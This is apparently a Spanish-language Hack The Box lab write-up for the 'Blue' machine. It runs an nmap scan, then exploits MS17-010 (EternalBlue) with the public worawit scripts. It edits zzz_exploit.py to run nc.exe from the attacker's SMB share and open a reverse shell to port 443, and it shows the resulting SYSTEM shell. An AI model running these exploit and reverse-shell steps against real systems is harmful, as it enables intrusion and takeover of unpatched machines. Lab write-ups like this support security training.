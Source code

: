 ```yaml
---
layout: single
title: HTB-Blue
excerpt: "WriteUp de la máquina HTB Blue -- Type: Easy"
date: 2022-03-29
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/blue/blueicon.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/blue/blueicon.png"></centre>


[Maquina](https://app.hackthebox.com/machines/51) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.40 
```

```txt
Nmap scan report for 10.10.10.40
Host is up (0.042s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Al ver que el puerto 445 se encuentra abierto y que el SO es un Windows 7 SP1 podemos probar a usar el EternalBlue ya que es vulnerable.

[MS17-010](https://github.com/worawit/MS17-010)



## Explotación

```bash
git clone https://github.com/worawit/MS17-010
```

Primero, vamos a comprobar que el Windows sea vulnerable a este exploit y para ello vamos a usar el **checker.py** dandole permisos de administrador y cambiando un trozo de linea del código.

Donde poner username, pondremos un carácter porque si no, no funciona el script.

```bash
Script for
- check target if MS17-010 is patched or not.
- find accessible named pipe
'''

USERNAME = 'a'
PASSWORD = ''

NDR64Syntax = ('71710533-BEBA-4937-8319-B5DBEF9CCC36', '1.0')

```

Ejecutamos el Script poniendo la direccion ip de la máquina Blue.

```bash
python2 checker.py 10.10.10.40
```

imagenchecker

Al comprobar que funciona correctamente, procederemos a cambiar la misma parte del contenido en el fichero **zzz_exploit.py** y también dandole permisos de ejecución.

Buscamos dentro del archivo por **cmd** y comentamos las mismas lineas que en lo siguiente y descomentamos la única que se va a ejecutar y cambiamos a lo siguiente.

Liena a insertar con el cual ejecutaremos el netcat por el servidor smb de Kali y nos haremos una reverseShell a nuestro equipo teniendo el puerto 443 a la escucha con el comando **nc -lvp 443
**

Linea a introducir:
```bash
\\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443
```

Parte del archivo a cambiar:
```bash
def smb_pwn(conn, arch):
        #smbConn = conn.get_smbconnection()
         
        #print('creating file c:\\pwned.txt on the target')
        #tid2 = smbConn.connectTree('C$')
        #fid2 = smbConn.createFile(tid2, '/pwned.txt')
        #smbConn.closeFile(tid2, fid2)
        #smbConn.disconnectTree(tid2)
         
        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c \\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."

```

Servidor SMB con **impacket**
```bash
impacket-smbserver share $(pwd) -smb2support

```


Procederemos a la ejecucion del script.

```bash
python2 zzz_exploit.py 10.10.10.40
```

Y comprobaremos que somos **nt authority*

```txt
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.40] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::ec27:2916:8a1f:869e
   Temporary IPv6 Address. . . . . . : dead:beef::a4ad:6053:ef18:5158
   Link-local IPv6 Address . . . . . : fe80::ec27:2916:8a1f:869e%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.40
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%11
                                       10.10.10.2

Tunnel adapter isatap.{CBC67B8A-5031-412C-AEA7-B3186D30360E}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32>
```

